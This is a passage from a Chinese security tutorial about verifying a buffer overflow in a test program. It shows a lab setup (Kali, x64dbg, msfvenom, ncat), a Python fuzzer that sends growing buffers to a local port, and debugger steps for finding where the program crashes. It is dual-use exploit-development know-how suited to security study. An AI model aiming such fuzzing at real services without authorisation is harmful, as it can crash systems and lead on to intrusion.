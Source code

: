 #  原创 | 缓冲区溢出漏洞那些事：验证与危害判定篇（文末福利）   
原创 梦幻的彼岸  SecIN技术平台   2023-04-12 18:00  
  
**点击蓝字**  
  
  
  
  
**关注我们**  
  
  
  
**环境信息**  
  
  
系统:kali、Windows 11  
  
工具：x64dbg、ERC.Xdbg插件、python、msfvenom、ncat、Code with Mu  
  
  
**发现**  
  
## 测试代码  
```
import socket
from struct import pack

IP = "127.0.0.1"
port = 21449

def fuzz():
    try:
        for i in range(0,10000,10):
            buffer = b"A"*i
            print("准备发送数据：%s bytes" % i)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((IP, port))
            s.send(buffer)
            s.close()
    except:
        print("指定端口无法访问")

fuzz()
```  
  
测试发现，程序接收到过多的信息会导致程序崩溃，猜测可能存在缓冲区溢出漏洞  
  
  
测试程序正常运行，会启动一个终端  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUylKHwEYc1KNo6kggP7F7icSFHibUNYe3vB6KnuaAzB9ibY8HbNWGPnmTgQ/640?wx_fmt=jpeg "")  
- 确定崩溃数据范围  
  
为方便查看，在send函数处下断点，这样发送完一次数据后会中断，方便观察到程序在崩溃前接收到的数据访问是多少  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xkA3iaCzeYpo1N1NACichjx6nd84hBooUyNRksROa5hiaKcsuHIjiaVv0iakS1Rba4nS4aExeX1iaHQBLSQEmShP5svA/640?wx_fmt=jpeg "")  
  